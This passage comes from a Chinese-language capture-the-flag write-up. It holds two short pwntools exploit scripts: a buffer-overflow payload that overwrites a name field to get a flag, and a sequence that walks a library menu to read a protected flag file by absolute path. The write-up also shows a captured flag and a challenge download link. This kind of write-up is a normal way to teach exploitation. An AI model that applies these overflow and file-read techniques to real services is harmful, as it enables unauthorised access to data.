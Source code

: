 我們就可以撰寫exploit:
```python=
from pwn import *

#r = process('./chal_23')
r = remote("chal.nhnc.ic3dt3a.org",2000)

r.sendline(b'a'*0x12 + b'cat_sleeping')
r.recvuntil("Enter the name: ")
r.sendline(b'A'*0x20+b'pwn3d!!!')
r.interactive()
r.close()
```

> NHNC{dof==doblue_over_flow?!?!}

## Fishbaby's Library (300 pts)
```
出題者: Raymond

Fishbaby 開了一間圖書館，但是把 flag 鎖在圖書館的禁區，你能夠突破防護措施並讀取 flag 嗎？

nc chal.nhnc.ic3dt3a.org 2002
```
[file link](https://nhnc.ic3dt3a.org/files/34abcd77e3a9f2d63c9aebcc3cd3a0e8/fishbabys_library_upd.zip?token=eyJ1c2VyX2lkIjo2MywidGVhbV9pZCI6bnVsbCwiZmlsZV9pZCI6ODF9.ZzybZQ.Akun0XrNCnG3njYwgcL2i18z9cE)
source code很長，就不放了

最剛開始時，exploit code有放在給的zip檔內

但他們發現時已經有5個人解了

~~很幸運我在那5個人之中~~

所以我在這邊就講講他的 exploit:
```python=
from pwn import *

p = remote('chal.nhnc.ic3dt3a.org', 2002)

p.sendline('S')
p.sendline('.')
p.sendline('R')
p.sendlineafter('Filename? ', '/home/chal/classified/flag')

flag = p.recvline()
log.info(flag)

p.close()
```
簡單來說，我們要透過`read_file`來得到flag

選單按`L`可以看到底下的內容:
```
Your choice> L
licenses/
rfcs/
classified/
hello_world/
visitor_notice.txt
run.sh
chal
gallery/
```
然後在source可以看到，`R`選項是用於read file
